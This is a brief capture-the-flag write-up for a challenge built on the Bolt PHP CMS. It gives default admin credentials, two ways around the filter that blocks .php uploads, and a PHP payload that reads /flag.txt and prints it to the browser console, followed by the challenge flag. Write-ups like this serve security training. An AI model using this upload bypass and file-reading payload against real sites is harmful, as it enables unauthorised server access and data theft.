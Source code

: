 ## bolt

Built with Bolt, PHP. Pretty straightforward - go to /login, credentials are "admin" and "password", see the file upload field. We cannot upload `.php` files, but there are two ways to bypass this:

1. Upload the file with a different extension and change it afterwards.
2. Modify `config.yml` file to accept `.php` files.

As for the malicious file content, here's how to print the flag file content to the console:

```
<?php 
    $file_contents = file_get_contents("/flag.txt");
    echo '<script>';
    echo 'console.log('. json_encode($file_contents, JSON_HEX_TAG) .')';
    echo '</script>';
?>
```

Once it's uploaded and opened, check the console.

_CTF{b12e3b34c581d4f3c66c00cc7f8dabec8838dab0acf26c2cfbe2f7d291326f75}_